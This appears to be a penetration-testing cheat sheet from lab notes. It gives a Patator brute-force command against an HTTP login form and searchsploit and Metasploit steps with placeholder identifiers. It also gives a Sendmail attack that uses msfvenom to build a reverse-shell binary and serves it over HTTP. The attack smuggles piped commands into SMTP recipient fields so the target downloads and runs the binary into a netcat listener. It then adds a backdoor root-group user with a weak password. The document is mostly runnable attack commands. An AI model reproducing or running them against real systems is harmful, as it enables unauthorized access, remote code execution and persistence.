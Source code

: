 ### Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

## CVE-2021-1234
### EDB-ID-56789
```bash
searchsploit foo
mkdir edb-id-56789
cd edb-id-56789
searchsploit -x 56789
```

### cyberphor POC
```bash
git clone https://github.com/cyberphor/cve-2021-1234-poc.git
cd cve-2021-56789-poc
```

### Metasploit
```bash
msfconsole
search ???
use exploit/???/???
set LHOST tun0
set RHOST $TARGET
run
```

### Sendmail
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.108 LPORT=443 -f elf -o rshell.elf
sudo python3 -m http.server 80

telnet 192.168.108.42 25
helo moto
mail from:<>
rcpt to:<root+"|wget http://192.168.49.108/rshell.elf"@localhost>
data
.
quit

sudo nc -nvlp 443
telnet 192.168.108.42 25
mail from:<>
rcpt to:<root+"|chmod +x rshell.elf"@localhost> 
data
.
mail from:<>
rcpt to:<root+"|./rshell.elf"@localhost>
data
.

cat /root/proof.txt
useradd victor -g root -s /bin/bash
echo "victor:password" | chpasswd 

ssh victor@192.168.108.42
# output
Unable to negotiate with 192.168.108.42 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```